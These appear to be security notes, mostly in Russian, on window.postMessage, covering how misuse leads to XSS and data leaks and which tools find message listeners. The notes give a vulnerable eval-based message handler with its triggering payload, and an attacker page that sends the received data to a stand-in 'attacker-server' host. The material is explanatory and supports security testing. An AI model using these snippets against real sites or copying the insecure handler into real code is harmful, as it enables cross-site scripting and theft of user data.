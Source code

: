 # window.postMessage

## Intro: что такое postMessage

Это метод `cross-origin` коммуникации между элементами `Window`: между страницей и всплывающим окном этой страницы, между страницей и `iframe`, встроенным в нее, и тп

Обычно, скрипты имеют доступ к друг другу на разных страницах если, и только если, имеют одинкавый протокол, хост и порт ([same-origin policy](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin\_policy)). `postMessage` дает безопасный способ обойти это ограничения (если правильно использовать).

В общем, одно окно может получить ссылку на другое (например, через `targetWindow = window.opener`), а затем отправить ему `MessageEvent` с помощью `targetWindow.postMessage()`. Получающее окно тогда свободно обрабатывать это событие по мере необходимости. Аргументы, передаваемые в `window.postMessage()` (то есть «сообщение»), открываются принимающему окну через объект события.

## К чему может привести неправильное использование

### XSS

Где-то обрабатывается message:

```javascript
function (b){b.data.evalCall&&eval("("+b.data.evalCall+")")}
```

Мы отправляем сообщение

```javascript
b.postMessage({"evalCall":"alert(document.domain)"},"*")
```

Это возможно, если секция вызова postMessage является уязвимой или настройка CORS на принимающей стороне является уязвимой.

### Leak Sensitive Data

vuln page

```javascript
function parent_getUserInfo()
{
   var userdata=[name,age, ...];
   parent.postMessage(userdata);
}
```

attacker

```markup
<img src="http://attacker-server/?" id=message> 
<script>
 window.onmessage = function(e){  
  document.getElementById("message").src += "&"+e.data;
 }
</script>
```

## Tools

Есть инструмент для мониторинга использования postMessages - [https://github.com/fransr/postMessage-tracker](https://github.com/fransr/postMessage-tracker)

Оформлена как Google extension (но и в ff стартует вроде тож)



To exploit the postMessage() vulnerabilities, first, it is required to know if the target application is using web messaging or not. If the target application uses web messaging, it is essential to identify the various listeners. There are several methods to do so, including:

1. **Searching for the keywords:** Use the developer tool’s global search option to search for specific keywords such as **postMessage(), addEventListener(“message, .on(“message”** in the javascript files.
2. **Using** [**MessPostage**](https://github.com/Sjord/messpostage) **Browser Extension:** Using this extension is an easy way to detect whenever an application usage postMessage() APIs. This also shows which messages were sent and where event listeners have been added:
3. **Using Developer Tools:** The “Global Listener” feature present in the “Sources” pane of Developer tools can be used to identify the use of postMessage(). After opening the Global Listener, click on “messages” to view the message handlers.
4. **Using** [**Posta**](https://github.com/benso-io/posta)**:** Posta is a tool for researching Cross-document Messaging communication. It allows you to track, explore and exploit `postMessage` vulnerabilities, and includes features such as replaying messages sent between windows within any attached browser.
5. **Using** [**PMHook**](https://github.com/yehgdotnet/postmessagehook)**:** PMHook is a client-side JavaScript library designed to be used with TamperMonkey in the Chrome web browser. Executed immediately at page load, PMHook wraps the **EventTarget.addEventListener** method and logs any subsequent message event handers as they are added. The event handler functions themselves are also wrapped to log messages received by each handler.

